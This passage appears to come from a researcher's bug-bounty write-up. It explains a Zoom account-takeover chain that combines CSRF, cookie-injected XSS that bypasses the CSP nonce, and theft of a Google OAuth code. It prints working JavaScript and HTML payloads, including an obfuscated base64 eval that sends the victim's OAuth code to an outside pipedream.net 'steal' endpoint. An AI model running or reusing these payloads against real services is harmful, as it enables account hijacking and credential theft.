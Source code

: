 
The form input field next to the `Submit` button contains the XSS payload which we are going to execute.
The textarea field next to the `Start Exploit` link contains the required cookies for converting the authorization code to a session cookie. (These are sent to the attacker controlled domain and are only shown the webpage to make the triage process easier. In a real world scenerio, the victim will not see this and the form will submit automatically)

The attack will work like this, the attacker sends the victim a URL. The victim opens it, the PHP script makes a request to get the OAuth URL and makes the changes to it for the attack.


When this method is called, it opens a new window to submit the CSRF (Post-based XSS) form which triggers the XSS in `redacted.zoom.us`, let's call this window winA. After an interval of 3 sec, the current window - let's call it winB - will redirect to the OAuth URL which we fetched from the `Location` header server side. This URL, which is passed to `window.location` in the code, is updated dynamically.

```js
 function startExploit() {

     window.open("", "csrfWindow", "width=500,height=300,toolbar=0");
     csrfForm.submit()

     setTimeout(() => {
         window.location = `https://accounts.google.com/o/oauth2/v2/auth?response_type=code&access_type=offline&client_id=849883241272-ed6lnodi1grnoomiuknqkq2rbvd2udku.apps.googleusercontent.com&scope=profile%20email&redirect_uri=https%3A%2F%2Fzoom.us%2Fgoogle%2FOAuth&state=bzZvNnVDT3VUZWFyTzFkcUVWaHZOUSxnb29nbGVfc2lnbmlu&_x_zm_rtaid=1VTqrIgaSTWpHaKIaur4rQ.1703318273241.5982aba128be6e8bad7f0ba21ee42417&_x_zm_rhtaid=73;`

     }, 3000);
 }
```

This payload is executed in the context of `redacted.zoom.us` in winA

```html
<script>
    document.cookie=`_zm_csp_script_nonce=&#x22;test\\&#x22;' 'nonce-test' 'unsafe-eval' >eval(atob('c2V0VGltZW91dCgoKT0+e2ZldGNoKCdodHRwczovL2VuMmNlbHI3cmV3YnVsLm0ucGlwZWRyZWFtLm5ldC9zdGVhbD9xPScrZXNjYXBlKHdpbmRvdy5vcGVuZXIuZG9jdW1lbnQubG9jYXRpb24pKTthbGVydCh3aW5kb3cub3BlbmVyLmRvY3VtZW50LmxvY2F0aW9uKX0sMTAwMDAp'))// \&#x22;;path=/webinar;domain=.zoom.us;`; 
    location=`https://zoom.us/webinar/register`
</script>
```

It sets the cookie `_zm_csp_script_nonce` for the domain `.zoom.us` with an XSS payload in it. We also added the path attribute for the cookie so that in case there exists a cookie already with the same name, our cookie will be prioritized due to the path attribute being more specific. After setting the XSS cookie we are redirecting the user to `https://zoom.us/webinar/register` endpoint which eventually reflects the malicious cookie set by us (any other endpoint can also be used here).

<br>
<center>
<img src="/images/cookies.png" >
</center>
<br>
